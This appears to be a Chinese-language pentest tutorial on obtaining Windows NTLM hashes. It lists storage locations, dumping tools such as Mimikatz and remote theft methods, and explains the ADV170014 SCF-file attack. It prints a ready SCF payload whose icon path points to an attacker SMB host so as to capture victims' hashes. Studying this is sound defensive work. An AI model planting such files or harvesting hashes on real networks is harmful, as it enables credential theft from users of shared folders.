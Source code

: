 
# [](#%E8%8E%B7%E5%8F%96-ntlm)获取 NTLM

## [](#1-%E7%9B%B8%E5%85%B3%E8%83%8C%E6%99%AF)1 相关背景

### [](#11-ntlm-%E7%9A%84%E5%AD%98%E5%82%A8%E4%BD%8D%E7%BD%AE)1.1 NTLM 的存储位置:

1、系统数据库 SAM (Security Account Manager)

2、DIT 数据库

3、内存 Cache

### [](#12-ntlm-%E7%9A%84%E8%8E%B7%E5%8F%96%E6%96%B9%E5%BC%8F)1.2 NTLM 的获取方式

1、从 SAM 获取

2、内存获取

3、DIT 数据库获取

4、WCE、PWDUMP、MIMIKATZ…

### [](#13-ntlm-%E7%9A%84%E5%BD%A2%E5%BC%8F)1.3 NTLM 的形式

aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42

LMHash (windows 2008 R2系统以后系统默认不保存 LMHash)

NTHash

NetHash - 主要获取该种 hash

### [](#14-%E8%BF%9C%E7%A8%8B%E8%8E%B7%E5%8F%96%E6%96%B9%E5%BC%8F%E7%AA%83%E5%8F%96)1.4 远程获取方式(窃取):

1、Responder

2、HTTP + SMB

3、**SCF + SMB**

4、SQL + SMB

### [](#adv-170014-ntlm-sso)ADV 170014 NTLM SSO

2017 年 10 月，微软在周二补丁日公布了一份安全公告(ADV170014)，这份安全公告中提到了 NTLM 身份验证方案中的一个漏洞，恶意攻击者可以利用这个漏洞来窃取哈希。

攻击者只需要将一个恶意的 SCF 文件放置在可公开访问的 Windows 文件夹中即可。

一旦文件被放在文件夹中，就会被一个神秘的 bug 执行。它会收集目标的 NTLM 密码散列，并将其发送到一个配置服务器中。

目标主机存在没有设置密码保护的一个共享文件夹，这种场景非常常见，比如办公室、学校、医院以及大多数 Windows 环境中，人们都会通过共享文件夹来共享音乐、照片以及文档。

### [](#%E6%94%BB%E5%87%BB%E5%9C%BA%E6%99%AF)攻击场景

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509105732.png-water_print](assets/1699409393-a8fbf91fa6649902dca2e00210456b34.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509105732.png-water_print")

非正版系统可能没有该设置：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509105840.png-water_print](assets/1699409393-1e7c8b65785333279308c3247d7cb7fe.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509105840.png-water_print")

微软在 Windows 3.11 时引入了 SCF 文件。SCF文件其实是纯文本文件，可以用来指导 Windows 文件资源管理器执行一些基本任务。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>[Shell]<br>Command=2 <br>IconFile=\\192.168.1.2\sharetest.ico <br>[Taskbar] <br>Command=ToggleDesktop<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509110136.png-water_print](assets/1699409393-a6c251b451ec54b95dffe87f54680ee2.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200509110136.png-water_print")
